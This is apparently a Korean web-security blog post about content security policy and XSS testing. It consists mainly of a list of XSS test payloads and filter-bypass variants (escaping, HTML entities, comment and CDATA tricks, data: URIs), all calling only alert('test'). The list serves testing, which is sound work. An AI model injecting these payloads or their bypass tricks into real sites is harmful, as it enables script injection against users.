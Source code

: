 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: "사이트 간 스크립팅, 크로스 사이트 스크립팅"
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: websecurity
tags: websecurity
keywords: websecurity
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: blog/XSS/
---
```


#### CSP 콘텐츠 보안정책

<img src="/blog/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:100%;">
<img src="/blog/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:100%;">


#### xss테스트

테스트 방법
```text
<script>alert('test');</script>
<img src=x onerror=alert('test')>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<img src=x onerror=ale&#x72t('test')>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<img src=x onerror=alert('test')>
<img src=x onerror="alert('test')">
<img src=x onerror=alert\('test'\)>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<img src=x onerror=alert('test')>-->
<!--><img src=x onerror=alert('test')><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<img src=x onerror="javascript:alert('test')">
<img src=x onerror="data:text/html,<script>alert('test');</script>">

```

